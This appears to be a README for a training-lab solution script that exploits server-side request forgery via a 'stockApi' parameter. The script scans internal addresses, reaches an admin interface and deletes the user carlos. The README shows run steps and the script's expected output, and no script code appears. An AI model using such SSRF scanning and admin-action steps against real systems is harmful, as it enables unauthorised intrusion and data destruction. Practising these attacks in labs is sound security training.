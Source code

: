 # Hack Steps

1. Inject payload into 'stockApi' parameter to scan the internal network
2. Delete carlos from the admin interface

# Run Script

1. Change the URL of the lab
2. Start script

```
~$ python basic_ssrf_against_another_back_end_system.py
```

# Expected Output

```
⟪#⟫ Injection point: stockApi
⦗1⦘ Injecting payload to scan the internal netwrok (192.168.0.15:8080/admin)..
⦗1⦘ Injecting payload to scan the internal netwrok (192.168.0.120:8080/admin)..
                            ....................
⦗1⦘ Injecting payload to scan the internal netwrok (192.168.0.218:8080/admin).. OK
⦗2⦘ Deleting carlos from the admin interface.. OK
🗹 Check your browser, it should be marked now as solved
```
